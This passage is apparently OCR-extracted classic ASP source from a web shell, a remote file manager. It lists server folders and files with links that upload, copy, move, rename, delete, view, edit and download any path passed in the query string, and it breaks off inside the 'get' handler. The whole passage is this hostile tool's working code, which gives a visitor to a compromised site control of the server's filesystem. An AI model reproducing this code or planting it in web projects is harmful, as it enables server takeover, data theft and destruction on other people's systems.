             Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face='arial' size='2'&gt;&lt;b&gt;&lt;DIR&gt; &lt;a href='" & Request.ServerVariables("SCRIPT_NAME") & "?raiz=" & folderItem.path & "'&gt;" & showobj(folderItem.path) & "&lt;/a&gt;&lt;/b&gt;&lt;/td&gt;&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=put&path=" & Replace(folderItem.path,"\","|") & "', 'win1','width=400,height=250,scrollbars=YES,resizable')""&gt;&lt;&lt; PUT&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;"
            Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=fcopy&path=" & Replace(folderItem.path,"\","|") & "', 'win1','width=400,height=100,scrollbars=YES,resizable')""&gt;&lt;&lt; Copy/Move&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;"
            Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=fdel&path=" & Replace(folderItem.path,"\","|") & "', 'win1','width=400,height=150,scrollbars=YES,resizable')""&gt;&lt;&lt; Delete&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
        next
        Response.Write "&lt;/table&gt;&lt;br&gt;&lt;table border=""0"" cellspacing=""0"" cellpadding=""0"" &gt;"
        marcatabela = true
        for each FilesItem0 in ColFiles0
            If marcatabela = true then
                corfundotabela = " bgcolor=""#EEEEEE"""
            Else
                corfundotabela = ""
            End If
            Response.Write "&lt;tr&gt;&lt;td" & corfundotabela & "&gt;&lt;font face='arial' size='2'&gt;:: " & showobj(FilesItem0.path) & "&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&lt;font face='arial' size='1'&gt;&nbsp;&nbsp;" & FormatNumber(FilesItem0.size/1024, 0) & "&nbsp;Kbytes&nbsp;&nbsp;&nbsp;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=get&path=" & Replace(FilesItem0.path,"\","|") & "', 'win1','width=400,height=200,scrollbars=YES,resizable')""&gt;o.GET.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=ren&path=" & Replace(FilesItem0.path,"\","|") & "', 'win1','width=400,height=200,scrollbars=YES,resizable')""&gt;o.REN.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=del&path=" & Replace(FilesItem0.path,"\","|") & "', 'win1','width=400,height=200,scrollbars=YES,resizable')""&gt;o.DEL.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=txtview&file=" & Replace(FilesItem0.path,"\","|") & "', 'win1','width=640,height=480,scrollbars=YES,resizable')""&gt;o.VIEW.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""#"" onclick=""javascript:document.open('" & Request.ServerVariables("SCRIPT_NAME") & "?action=txtedit&file=" & Replace(FilesItem0.path,"\","|") & "', 'win1','width=760,height=520,scrollbars=YES,resizable')""&gt;o.EDIT.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=download&file=" & Replace(FilesItem0.path,"\","|") & """&gt;o.?ndir.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'" & corfundotabela & "&gt;&nbsp;&nbsp;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a target='opener' href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=filecopy&file=" & Replace(FilesItem0.path,"\","|") & """&gt;o.FileCopy.o&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
            marcatabela = NOT marcatabela
        next
        Response.Write "&lt;/table&gt;"
    End If
End Sub
Select Case Trim(Request.QueryString("action"))
    Case "get"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        caminho = Replace(Trim(Request.QueryString("path")),"|","\")
        Set ObjFSO = CreateObject("Scripting.FileSystemObject")